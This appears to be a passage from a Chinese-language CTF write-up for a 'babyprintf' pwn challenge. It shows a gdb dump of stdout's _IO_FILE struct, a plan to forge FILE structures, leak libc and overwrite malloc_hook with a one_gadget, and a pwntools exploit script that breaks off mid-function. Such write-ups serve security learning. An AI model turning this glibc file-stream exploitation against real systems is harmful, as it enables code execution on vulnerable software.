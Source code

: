 ```
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dd18e0,
    _fileno = 0x1,
    _flags2 = 0x0,
    _old_offset = 0xffffffffffffffff,
    _cur_column = 0x0,
    _vtable_offset = 0x0,
    _shortbuf = {0xa},
    _lock = 0x7ffff7dd3780,
    _offset = 0xffffffffffffffff,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dd17a0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0xffffffff,
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7ffff7dd06e0
}
```

伪造 stdout 中的成员泄漏 vtable 来获取 libc，然后把 malloc_hook 改成 one_gadget，最后想办法在最后的 printf_chk 处触发 malloc。利用 [veritas501 写的 FILE 模块](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/#FILE-py-FILE%E7%BB%93%E6%9E%84%E4%BD%93%E4%BC%AA%E9%80%A0%E6%A8%A1%E5%9D%97)来构造 `_IO_FILE` 结构体：

```python
#!/usr/bin/env python
from pwn import *
from FILE import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

p = process('./babyprintf')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.recvuntil('So I change the buffer location to ')
buffer_addr = int(p.recvuntil('\n', drop=True)[2:], 16)
binary_base = buffer_addr - 0x202010
info('buffer_addr = ' + hex(buffer_addr))
p.recvuntil('Have fun!\n')

def leak(addr):
    fake_file = IO_FILE_plus_struct()
    fake_file._flags = 0x00000000fbad2887
    fake_file._IO_read_end = addr
    fake_file._IO_write_base = addr
    fake_file._IO_write_ptr = addr + 8
    fake_file._fileno = 1
    fake_file._lock = buffer_addr + 0x100
    payload = 'A' * 0x10 + p64(buffer_addr + 0x20) + p64(0) + str(fake_file)[:-8]
    p.sendline(payload)
    p.recvline()
    return u64(p.recv(8))

def write(addr, data):
    while data != 0:
        fake_file = IO_FILE_plus_struct()
        fake_file._flags = 0x00000000fbad2887
        fake_file._IO_read_end = buffer_addr
```